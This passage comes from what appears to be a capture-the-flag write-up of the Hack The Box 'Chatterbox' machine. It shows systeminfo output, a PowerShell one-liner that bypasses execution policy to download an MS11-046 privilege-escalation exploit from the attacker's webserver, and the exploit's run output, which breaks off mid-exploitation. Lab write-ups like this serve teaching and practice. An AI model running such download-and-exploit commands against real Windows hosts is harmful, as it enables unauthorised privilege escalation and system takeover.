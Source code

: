 Host Name: CHATTERBOX 
OS Name: Microsoft Windows 7 Professional
OS Version: 6.1.7601 Service Pack 1 Build 7601
OS Manufacturer: Microsoft Corporation 
OS Configuration: Standalone Workstation
OS Build Type: Multiprocessor Free
Registered Owner: Windows User 
Registered Organization: 
Product ID: 00371-223-0897461-86794
Original Install Date: 12/10/2017, 9:18:19 AM
System Boot Time: 5/30/2018, 11:48:49 AM 
System Manufacturer: VMware, Inc. 
System Model: VMware Virtual Platform 
System Type: X86-based PC 


</pre>
I was surprised to see I could browse into the Administrator's folder and desktop. Unfortunately I could not view the root flag.
<pre>C:\Users\Administrator\Desktop&gt;type root.txt
type root.txt 
Access is denied.</pre>
Back to Google to see if I can find out what exploits are out there for 6.1.7601 service pack 1 build 7601.

Found an exploit. Copied it to kali and used powersploit the shell to download it from python webserver I called it ms11.exe for simplicity. Here is a useful website <a href="https://www.jollyfrogs.com/transfer-files-windows/">https://www.jollyfrogs.com/transfer-files-windows/</a>
<pre>C:\Users\Alfred\Desktop&gt;powershell.exe -noninteractive -ExecutionPolicy Bypass -NoLogo -NoProfile (new-object System.Net.WebClient).DownloadFile('http://10.10.14.234:8000/MS11.exe','MS11.exe')            
powershell.exe -noninteractive -ExecutionPolicy Bypass -NoLogo -NoProfile (new-object System.Net.WebClient).DownloadFile('http://10.10.14.234:8000/MS11.exe','MS11.exe')  
</pre>
<pre>C:\Users\Alfred\Desktop&gt;ms11.exe
ms11.exe
[*] MS11-046 (CVE-2011-1249) x86 exploit
   [*] by Tomislav Paskalev
[*] Identifying OS
   [+] 32-bit
   [+] Windows 7 SP1
[*] Locating required OS components
   [+] ntkrnlpa.exe
      [*] Address:      0x82a0d000
      [*] Offset:       0x01620000
      [+] HalDispatchTable
         [*] Offset:    0x0174d440
   [+] NtQueryIntervalProfile
      [*] Address:      0x779a5c90
   [+] ZwDeviceIoControlFile
      [*] Address:      0x779a5420
[*] Setting up exploitation prerequisite
   [*] Initialising Winsock DLL
      [+] Done
      [*] Creating socket
         [+] Done
         [*] Connecting to closed port
            [+] Done
[*] Creating token stealing shellcode
   [*] Shellcode assembled
   [*] Allocating memory
      [+] Address:      0x02070000
      [*] Shellcode copied
[*] Exploiting vulnerability
   [*] Sending AFD socket connect request